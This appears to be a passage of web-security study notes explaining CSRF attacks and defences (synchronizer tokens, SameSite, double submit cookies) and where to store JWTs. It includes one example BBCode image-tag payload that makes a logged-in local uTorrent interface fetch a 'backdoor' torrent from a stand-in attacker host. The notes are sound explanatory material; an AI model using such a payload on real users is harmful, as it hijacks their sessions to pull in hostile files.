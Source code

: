 When a user that is logged in to another site, clicks a malicious link on another site that makes a request to the logged-in site, bypassing authentication (because it is done via cookie, and the cookie is sent with the request automatically to the logged-in site's server). CSRF exploits the trust that a site has in a user's browser. In a CSRF attack, an innocent end user is **tricked** by an attacker **into submitting a web request that they did not intend**. This may cause actions to be performed on the website that can include inadvertent client or server data leakage, change of session state, or manipulation of an end user's account.

CSRF attacks using image tags are often made from Internet forums, where users are allowed to post images but not JavaScript, for example using BBCode:
```
[img]http://localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor.torrent[/img]
```

When accessing the attack link to the local uTorrent application at localhost:8080, the browser would also always automatically send any existing cookies for that domain. This general property of web browsers enables CSRF attacks to exploit their targeted vulnerabilities and execute hostile actions as long as the user is logged into the target website (in this example, the local uTorrent web interface) at the time of the attack.

Most CSRF prevention techniques work by embedding additional authentication data into requests that allows the web application to detect requests from unauthorized locations.
- Synchronizer token pattern,
- Cookie-to-header token,
- Double Submit Cookie,
- SameSite cookie attribute,
- Client-side safeguards (extensions, NoScript, etc.)


#### What is JWT used for? Where to store it on client side?

JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA or ECDSA.

Although JWTs can be encrypted to also provide secrecy between parties, we will focus on signed tokens. Signed tokens can verify the integrity of the claims contained within it, while encrypted tokens hide those claims from other parties. When tokens are signed using public/private key pairs, the signature also certifies that only the party holding the private key is the one that signed it.

https://stackoverflow.com/questions/27067251/where-to-store-jwt-in-browser-how-to-protect-against-csrf
We need to store the JWT on the client computer. If we store it in a LocalStorage/SessionStorage then it can be easily grabbed by an XSS attack. If we store it in cookies then a hacker can use it (without reading it) in a CSRF attack and impersonate the user and contact our API and send requests to do actions or get information on behalf of a user.

But there are several ways to secure the JWT in cookies to not to be stolen easily (but there are still some advanced techniques to steal them). But if you wanna rely on LocalStorage/SessionStorage, then it can be accessed by a simple XSS attack.
Add `SameSite=strict` header to defeat CSRF + httpOnly

So to solve the CSRF problem, I use Double Submit Cookies in my application.
